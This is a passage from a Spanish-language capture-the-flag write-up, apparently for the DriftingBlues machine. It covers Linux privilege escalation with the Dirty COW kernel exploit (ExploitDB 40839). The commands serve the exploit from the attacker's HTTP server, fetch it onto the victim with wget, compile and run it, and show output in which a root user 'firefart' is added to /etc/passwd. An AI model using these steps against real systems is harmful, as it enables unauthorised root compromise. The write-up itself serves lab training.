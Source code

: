 ## Escalate Privileges

Si vemos la version del `kernel` veremos lo siguiente:

```shell
uname -r
```

Info:

```
3.2.0-4-amd64
```

Vamos a ver si fuera vulnerable al `dirty cow`.

URL = [ExploitDB Vuln Kernel Dirty Cow](https://www.exploit-db.com/exploits/40839)

Veremos que si es vulnerable, por lo que vamos a descargarnos el archivo `.c` y nos lo pasaremos a la maquina victima para compilarlo ya que tenemos el `gcc` instalado tambien.

```shell
python3 -m http.server 8000
```

En la maquina victima nos lo descargaremos:

```shell
cd /tmp
wget http://<IP>:8000/40839.c
```

Una vez que nos lo hayamos descargado ejecutaremos lo siguiente:

```shell
gcc -pthread 40839.c -o dirty -lcrypt
```

Una vez compilado, lo ejecutaremos de la siguiente forma proporcionando la contraseña que queramos.

```shell
./dirty 1234
```

Info:

```
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 1234
Complete line:
firefart:fionu3giiS71.:0:0:pwned:/root:/bin/bash

mmap: 7f4781448000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '1234'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@driftingblues:/tmp$ madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '1234'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```
